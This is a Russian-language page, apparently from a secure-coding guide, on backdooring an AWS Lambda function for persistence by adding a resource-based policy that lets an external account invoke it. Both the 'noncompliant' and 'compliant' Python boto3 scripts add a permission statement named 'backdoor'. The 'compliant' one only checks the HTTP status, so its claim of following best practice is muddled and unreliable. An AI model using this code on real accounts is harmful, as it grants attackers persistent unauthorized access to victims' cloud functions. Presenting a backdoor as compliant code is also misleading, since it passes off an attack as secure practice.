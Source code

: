 Бэкдор функции Lambda через политику на основе ресурсов заключается в изменении разрешений функции Lambda, чтобы разрешить ее вызов из внешней учетной записи AWS. Это обеспечивает постоянство, позволяя несанкционированный доступ к функции.

Несоответствующий код:
Следующий код, не соответствующий требованиям, демонстрирует бэкдорсинг функции Lambda путем изменения ее политики на основе ресурсов без учета лучших практик безопасности:

```
import boto3

def backdoor_lambda_function(function_name, external_account_id):
    lambda_client = boto3.client('lambda')
    response = lambda_client.add_permission(
        FunctionName=function_name,
        StatementId='backdoor',
        Action='lambda:InvokeFunction',
        Principal='arn:aws:iam::' + external_account_id + ':root'
    )
    print("Lambda function backdoored successfully.")

# Использование
backdoor_lambda_function('my-function', '123456789012')
```

Код, не соответствующий требованиям, использует метод add_permission в AWS SDK для изменения ресурсной политики функции Lambda. Он добавляет оператор разрешения, который позволяет указанной внешней учетной записи AWS вызывать функцию. Этот код не учитывает лучшие практики безопасности, такие как правильная авторизация и проверка.

Соответствующий код:
Следующий код, отвечающий требованиям, демонстрирует бэкдоринг функции Lambda с соблюдением лучших практик безопасности:

```
import boto3

def backdoor_lambda_function(function_name, external_account_id):
    lambda_client = boto3.client('lambda')
    response = lambda_client.add_permission(
        FunctionName=function_name,
        StatementId='backdoor',
        Action='lambda:InvokeFunction',
        Principal='arn:aws:iam::' + external_account_id + ':root'
    )
    if response['ResponseMetadata']['HTTPStatusCode'] == 201:
        print("Lambda function backdoored successfully.")
    else:
        print("Failed to backdoor Lambda function.")

# Использование
backdoor_lambda_function('my-function', '123456789012')
```

